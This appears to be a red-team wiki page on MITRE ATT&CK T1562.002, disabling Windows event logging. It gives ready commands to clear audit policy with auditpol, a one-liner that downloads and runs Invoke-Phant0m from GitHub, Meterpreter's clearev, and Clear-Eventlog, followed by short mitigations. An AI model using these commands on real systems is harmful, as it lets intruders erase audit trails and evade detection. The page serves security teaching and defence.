

# Disable Windows Event Logging

**ATT\&CK ID:** [**T1562.002**](https://attack.mitre.org/techniques/T1562/002/)****

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>

**Description**

Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more. This data is used by security tools and analysts to generate detection.

The EventLog service maintains event logs from various system components and applications. By default, the service automatically starts when a system powers on. An audit policy, maintained by the Local Security Policy (secpol.msc), defines which system events the EventLog service logs. Security audit policy settings can be changed by running secpol.msc, then navigating to `Security Settings\Local Policies\Audit Policy` for basic audit policy settings or `Security Settings\Advanced Audit Policy Configuration` for advanced audit policy settings. `auditpol.exe` may also be used to set audit policies.

Adversaries may target system-wide logging or just that of a particular application. For example, the EventLog service may be disabled using the following PowerShell line: `Stop-Service -Name EventLog`. Additionally, adversaries may use `auditpol` and its sub-commands in a command prompt to disable auditing or clear the audit policy. To enable or disable a specified setting or audit category, adversaries may use the `/success` or `/failure` parameters. For example, `auditpol /set /category:"Account Logon" /success:disable /failure:disable` turns off auditing for the Account Logon category. To clear the audit policy, adversaries may run the following lines: `auditpol /clear /y` or `auditpol /remove /allusers`.

By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.

\[[Source](https://attack.mitre.org/techniques/T1562/002/)]

## Techniques

### auditpol (Native)

Delete the per-user audit policy for all users, reset the system audit policy settings for all subcategories, and set all the audit policy settings to disabled,

```
auditpol.exe /clear /y
auditpol.exe  /remove /allusers
```

### Invoke-Phant0m

Completely disables the event log service. Requires a system restart to return normal operation.

```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/olafhartong/Invoke-Phant0m/master/Invoke-Phant0m.ps1);Invoke-Phant0m
```



### Metasploit

This meterpreter command wipes logs from Application,System and Security logs.

```bash
# Meterpreter
clearev
```

.png>)

### PowerShell

Performing this command leaves an event for the logs being cleared.

```powershell
Clear-Eventlog -LogName Application,Security,System
```


## Mitigation

* Ensure proper process and file permissions are in place to prevent adversaries from disabling or interfering with logging or deleting or modifying .evtx logging files. Ensure .evtx files, which are located at `C:\Windows\system32\Winevt\Logs`[\[13\]](https://forensicswiki.xyz/wiki/index.php?title=Windows\_XML\_Event\_Log\_\(EVTX\)), have the proper file permissions for limited, legitimate access and audit policies for detection.
* Ensure proper Registry permissions are in place to prevent adversaries from disabling or interfering logging. The addition of the MiniNT registry key disables Event Viewer.
